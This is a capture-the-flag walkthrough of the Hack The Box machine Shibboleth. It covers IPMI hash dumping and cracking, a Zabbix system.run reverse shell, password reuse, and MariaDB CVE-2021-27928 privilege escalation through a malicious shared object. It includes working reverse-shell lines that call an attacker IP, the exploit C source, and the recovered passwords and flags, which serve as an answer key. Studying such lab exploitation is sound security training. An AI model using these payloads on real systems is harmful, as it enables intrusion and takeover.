


# 🐧 Shibboleth — HTB


> **TL;DR** — Only `80` is open over TCP, but vhost enumeration exposes a **Zabbix** login behind `monitor`/`monitoring`/`zabbix.shibboleth.htb` → a UDP scan finds `623/udp` (**IPMI**), whose pre-auth RAKP hash dump leaks the `Administrator` hash, cracked with John to `ilovepumkinpie1` → that logs into Zabbix, where a `system.run[]` item gives a reverse shell as `zabbix` → password reuse lets us `su` to `ipmi-svc` for the user flag → the Zabbix DB password (`bloooarskybluh`) from `zabbix_server.conf` logs into **MariaDB 10.3.25** with `GRANT SUPER` → **CVE-2021-27928** loads a malicious shared object via `wsrep_provider`, giving a root shell.

**Tags:** `vhost enumeration` · `IPMI` · `RAKP hash dump` · `hash cracking` · `Zabbix RCE` · `reverse shell` · `password reuse` · `MariaDB` · `CVE-2021-27928` · `wsrep_provider`

---

## 1. How many open TCP ports are listening on Shibboleth?

Start with a full-range service scan:

```bash
nmap -sV -p- 10.129.101.49
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: shibboleth.htb
```

Only one TCP port is open: HTTP (80). The `Host: shibboleth.htb` banner is the first hint that virtual hosts are in play.

> **Answer:** `1`

## 2. There are multiple subdomains on shibboleth.htb that all lead to the same login form. What software is running on that subdomain?

I added `shibboleth.htb` to `/etc/hosts` and enumerated virtual hosts. Any non-existent vhost redirects to the main site with an HTTP `302`, so I filtered those out:

```bash
gobuster vhost -u http://shibboleth.htb \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  --append-domain -xs 302
```

```
monitor.shibboleth.htb     Status: 200 [Size: 3686]
monitoring.shibboleth.htb  Status: 200 [Size: 3686]
zabbix.shibboleth.htb      Status: 200 [Size: 3686]
```

I added all three to `/etc/hosts` and opened one — they all serve the same **Zabbix** login panel.



> **Answer:** `Zabbix`

## 3. What UDP port is open on Shibboleth?

With TCP yielding little, I scanned UDP. UDP scans are slow, so I started with the top 100 ports:

```bash
sudo nmap -sU --top-ports 100 -v 10.129.101.49
```

```
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

> **Answer:** `623`

## 4. What is the administrator user's password to Zabbix?

Port `623/udp` is almost always **IPMI** (Intelligent Platform Management Interface), which has a well-known flaw: the RAKP protocol returns a salted hash of a user's password *before* authentication completes. Metasploit's `scanner/ipmi/ipmi_dumphashes` module exploits exactly this — I also set `OUTPUT_JOHN_FILE` to write the hash straight to a file:

```
[+] 10.129.101.49:623 - IPMI - Hash found: Administrator:2471d2c6820500002e10eb1ef846d449a6a761a8208f78b204d8d3ce74884462cff9e3dca8e8b5d9a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f79cedbe3e282ef105143c8a9b047295293a47ce
```

I saved the hash to `hash.txt` and cracked it with John using the `rakp` format:

```bash
john --format=rakp --wordlist=/home/wojtek/rockyou.txt hash.txt
```

It cracked almost instantly.

> **Answer:** `ilovepumkinpie1`

## 5. What user is Zabbix running as?

Those credentials log into the Zabbix admin panel. Zabbix items can execute system commands via the `system.run[]` key, so I abused that for code execution.

I went to **Configuration → Hosts → Items → Create Item** and set the key to a reverse shell:

```
system.run[bash -c "bash -i >& /dev/tcp/10.10.14.229/4444 0>&1",nowait]
```



With a listener waiting, the item fired and gave me a shell:

```bash
nc -lvnp 4444
```

```
zabbix@shibboleth:/$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

> **Answer:** `zabbix`

## 6. What user on Shibboleth shares a password with the administrator account on Zabbix?

I checked which local users have a real login shell:

```bash
cat /etc/passwd | grep -E "/bin/bash|/bin/sh"
```

```
root:x:0:0:root:/root:/bin/bash
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
```

`ipmi-svc` stands out. The IPMI password we cracked earlier is a natural candidate for reuse. First I stabilized the shell into a proper PTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# Enter, Enter
export TERM=xterm
```

Then switched user with the cracked password:

```bash
su - ipmi-svc
# Password: ilovepumkinpie1
```

> **Answer:** `ipmi-svc`

## 7. Submit the flag located in the ipmi-svc user's home directory.

```bash
cat /home/ipmi-svc/user.txt
```

> **Answer:** `7ce3f5a65e8e6ef72da71317a1f64585`

## 8. What is the password for the zabbix user in the MySQL instance running on Shibboleth?

The Zabbix server stores its database credentials in its config file:

```bash
cat /etc/zabbix/zabbix_server.conf | grep -i DBPassword
```

```
### Option: DBPassword
DBPassword=bloooarskybluh
```

> **Answer:** `bloooarskybluh`

## 9. What version of MySQL / MariaDB is running on Shibboleth?

```bash
mysql --version
```

```
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```

> **Answer:** `10.3.25`

## 10. What is the 2021 CVE ID for the command execution vulnerability in this version of MariaDB?

MariaDB 10.3.25 is vulnerable to a privilege-escalation flaw where a user with `SUPER` (or `FILE`) privileges can load an arbitrary shared library through the Galera `wsrep_provider` variable, resulting in code execution as the MariaDB service user — here, `root`.

> **Answer:** `CVE-2021-27928`

## 11. What is the global MySQL variable that is set to a shared object to get it to run for this exploit?

I logged into MariaDB with the recovered DB password:

```bash
mysql -u zabbix -p
# Enter password: bloooarskybluh
```

Checking my grants confirms the exploit is viable — the account has `GRANT SUPER`:

```sql
SHOW GRANTS;
```

```
+---------------------------------------------------------------------------------------------------------------+
| Grants for zabbix@localhost                                                                                   |
+---------------------------------------------------------------------------------------------------------------+
| GRANT SUPER ON *.* TO `zabbix`@`localhost` IDENTIFIED BY PASSWORD '*3F74D65BA647534AC75FBE1048027AC98EC75C4C' |
| GRANT ALL PRIVILEGES ON `zabbix`.* TO `zabbix`@`localhost`                                                    |
+---------------------------------------------------------------------------------------------------------------+
```

The CVE works by pointing the global **`wsrep_provider`** variable at a malicious shared object — when the server loads it, our code runs.

> **Answer:** `wsrep_provider`

## 12. Submit the flag located in the root user's home directory.

I built a shared object whose constructor runs a reverse shell as soon as it is loaded. On my machine I wrote `exploit.c`:

```c
#include <stdlib.h>
__attribute__((constructor)) void exploit() {
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.229/5555 0>&1'");
}
```

Compiled it as a position-independent shared library and served it over HTTP:

```bash
gcc -shared -fPIC -o exploit.so exploit.c
python -m http.server 8888
```

Downloaded it onto the target:

```bash
wget http://10.10.14.229:8888/exploit.so -O /tmp/exploit.so
```

Then, with a listener on `5555`, I pointed `wsrep_provider` at the library from the MariaDB prompt:

```sql
SET GLOBAL wsrep_provider='/tmp/exploit.so';
```

```
ERROR 2006 (HY000): MySQL server has gone away
...
Query OK, 0 rows affected (0.034 sec)
```

The server loads the object, the constructor fires, and the listener catches a shell as `root`:

```
root@shibboleth:/var/lib/mysql# id
uid=0(root) gid=0(root) groups=0(root)
root@shibboleth:/var/lib/mysql# cat /root/root.txt
94e6a61e2cb2c33446a85bc713177596
```

> **Answer:** `94e6a61e2cb2c33446a85bc713177596`

---

## 🏁 Flags

| Flag | Value |
|---|---|
| **User** (`/home/ipmi-svc/user.txt`) | `7ce3f5a65e8e6ef72da71317a1f64585` |
| **Root** (`/root/root.txt`) | `94e6a61e2cb2c33446a85bc713177596` |
